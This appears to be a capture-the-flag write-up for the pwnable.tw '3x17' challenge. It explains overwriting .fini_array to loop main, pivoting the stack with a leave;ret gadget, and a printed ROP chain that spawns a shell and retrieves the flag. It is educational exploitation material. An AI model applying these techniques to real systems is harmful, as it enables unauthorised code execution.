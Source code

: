 # 3x17

Stack pivoting, Overwriting .fini_array, rop2syscall

## checksec

```bash
[*] '/mnt/d/CTFs/pwnable-tw/3x17/3x17'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Since there is no PIE, the ROP gadgets and `.fini_array` are at fixed addresses. 

Although the checksec detects no canary, stack canaries exist on most of the functions in the binary, including `main`. 

## General Functionality of the Binary

The stripped, statically-linked x86-64 binary simply provides an one-time arb-write capability of 24 bytes (read in using the read syscall) before returning, as shown

```
$ ./3x17
addr:123456
data:bruh
```

An `atoll()` call is made on the user input to the  "addr:" prompt, while the binary accepts byte input after the "data:" prompt. Thus, the above user input would result in the writing of `b"bruh\n"` into the address `hex(123456) = 0x1e240`. 

We will need to overwrite `.fini_array` to obtain more arbtrary writes. 

### Structure of `.fini_array`

From Binary Ninja, we see that `.fini_array` basically consists of two function pointers, one to `__do_global_dtors_aux` and the other to some unidentified function `sub_401580`

```c
.fini_array section started  {0x4b40f0-0x4b4100}
004b40f0  void (* fini_array[0x2])() = 
004b40f0  {
004b40f0      [0x0] = __do_global_dtors_aux
004b40f8      [0x1] = sub_401580
004b4100  }
.fini_array section ended  {0x4b40f0-0x4b4100}
```

> Note: `.fini_array` refers to the section of memory in the ELF that holds the array of function that run on exit, while `fini_array` refers to the array of functions itself. 


Notably, the functions in `.fini_array` run in reverse order i.e. `fini_array[1]` will run before `fini_array[0]`. Hence when overwriting `.fini_array`, we should inject the function (or ROP gadget, but oops - that will require [stack pivoting](#stack-pivoting)) that should/can run first into the second entry of `fini_array`. 

## Obtaining more Arbitrary Writes

24 bytes of arb-write is insufficient for us to construct the ROP chain to spawn a shell through syscall-ing (not to mention we also need to overwrite `.fini_array`, and [pivot the stack](#stack-pivoting), the reason for which is explained in that section), so our first order of business is to obtain more arbitrary writes. 

To that end, we need to be able to continuously call `main`, so that we can repeatedly use the arb-write capability that the function grants us. 

At this point, we should note that within `main`, there is a global variable that is updated whenever the function runs. In the truncated High Level IL representation of `main` generated by Binary Ninja shown below, this is `data_4b9330` - the byte at address `0x4b9330` is incremented by 1 everytime `main` runs. 

```c
00401b6d  int64_t main()

              ... Setting up the stack canary ...

00401b8e      data_4b9330 = data_4b9330 + 1
00401b94      char rax_3 = data_4b9330
00401b9d      if (rax_3 == 1)
                  ... Perform the Arb-write ...

              ... Canary check ...
```

Only if the byte at address `0x4b9330` is 1, will we be able to arb-write. `data_4b9330` is initialized to zero, so on the second run of `main`, the arb-write capability won't occur. 

However, if we are able to overflow the byte at `0x4b9330`, then the arb-write capability will be re-attained. In other words, after the first occurrence, the arb-write capability will only reoccur every 256 calls to `main`. 

This implies that we cannot simply overwrite an entry in `fini_array` with `main` - we need a way of calling `main` a large number of times. 

### Calling `main` repeatedly

The libc function `__libc_csu_fini` is the function that calls the functions in `fini_array`. We can identify it (its address) by the fifth argument that is passed to `__libc_start_main` that is the first call from the binary's entrypoint. From the Binary Ninja High Level IL representation of `__libc_csu_fini` shown below, we verify that the function in `fini_array` are called from higher to lower indexes. 

```c
00402960  int64_t __libc_csu_fini()
0040297d      int64_t i = 1
00402994      do
00402988          fini_array[i]()
0040298c          i = i - 1
00402994      while (i != -1)
0040299c      return _fini() __tailcall
```

Notably, if `fini_array[1] = main` and `fini_array[0] = __libc_csu_fini`, then `main` will be continuously called, since `fini_array` would be

```c
004b40f0  void (* fini_array[0x2])() = 
004b40f0  {
004b40f0      [0x0] = __libc_csu_fini
004b40f8      [0x1] = main
004b4100  }
```

## Stack Pivoting 

To spawn a shell by rop2syscall, we need to inject ROP gadgets onto the stack (since retaddrs are popped off the stack). However, due to ASLR, we do not know the address of the stack and thus would need to leak its address to know where to arb-write to. Perhaps that is possible, but there is a simpler way to perform our rop2syscall, which is to pivot the stack to an address that is fixed (i.e. does not change between runs). 

Consider the disassembly of `__libc_csu_fini` up till its call 

```x86asm
00402960  int64_t __libc_csu_fini()

00402960  55                 push    rbp {__saved_rbp}
00402961  488d0598170b00     lea     rax, [rel data_4b4100]
00402968  488d2d81170b00     lea     rbp, [rel fini_array]
0040296f  53                 push    rbx {__saved_rbx}
00402970  4829e8             sub     rax, rbp
00402973  4883ec08           sub     rsp, 0x8
00402977  48c1f803           sar     rax, 0x3
0040297b  7419               je      0x402996  {0x0}

0040297d  488d58ff           lea     rbx, [rax-0x1]  {0x1}
00402981  0f1f8000000000     nop     dword [rax], eax

00402988  ff54dd00           call    qword [rbp+rbx*8]
```

Importantly, `rbp` is loaded with the address of `.fini_array` (instr 0x402968). This implies that we can use a very basic gadget (that is present in almost all x86-64 functions since that is the function epilogue) to pivot the stack - the `leave; ret` gadget. 

This technique is mentioned on [this site](https://ir0nstone.gitbook.io/notes/binexp/stack/stack-pivoting#leave-ret), but the basic idea is that the `leave` instr is the following two instrs

```x86asm
mov rsp, rbp
pop rbp
```

Thus, if we inject the `leave; ret` gadget into `fini_array[0]`, then after the `leave` rsp will be set to `fini_array`, and after the `ret` rsp will be `fini_array + 8`. The stack would be pivoted to `fini_array[1]`, after which we would know the addresses to write in further ROP gadgets (since the address of `.fini_array` is fixed because there is no PIE). 

In other words, if we setup the ROP chain to spawn a shell from `fini_array + 16` onwards, and let `fini_array[0]` be a `leave; ret` gadget and `fini_array[1]` be a `ret` gadget, then `fini_array[1]` will be a harmless gadget that runs before the stack is pivoted, and then `fini_array[1]` will run again before the subsequent gadgets past `fini_array[1]` will run. 

Notably, we **must** setup the rest of the ROP chain before pivoting the stack, because that would take away our arb-write capability, since both entries of `fini_array` are needed to [call `main` repeatedly](#calling-main-repeatedly). 

## The ROP chain

We use the following ROP chain to rop2syscall (creation mostly automated using pwntools)

```
0x0000:         0x44a309 pop rdx; pop rsi; ret
0x0008:              0x0
0x0010:              0x0
0x0018:         0x41e4af pop rax; ret
0x0020:             0x3b
0x0028:         0x401696 pop rdi; ret
0x0030:         0x4b7c70
0x0038:         0x4022b4 syscall
```

A separate arb-write to `0x4b7c70` (just some arbitrary address in .data) is done to write in the `b"/bin/sh\x00"` string. 

We write in these gadgets going upwards from the address `fini_array + 16`. 

## Flag

```bash
[+] Opening connection to chall.pwnable.tw on port 10105: Done
[*] Loaded 131 cached gadgets for './3x17'
0x0000:         0x44a309 pop rdx; pop rsi; ret
0x0008:              0x0
0x0010:              0x0
0x0018:         0x41e4af pop rax; ret
0x0020:             0x3b
0x0028:         0x401696 pop rdi; ret
0x0030:         0x4b7c70
0x0038:         0x4022b4 syscall
[*] Switching to interactive mode
$ cd home/3x17
$ ls
3x17
run.sh
the_4ns_is_51_fl4g
$ cat the_4ns_is_51_fl4g
FLAG{Its_just_a_b4by_c4ll_0riented_Pr0gramm1ng_in_3xit}
```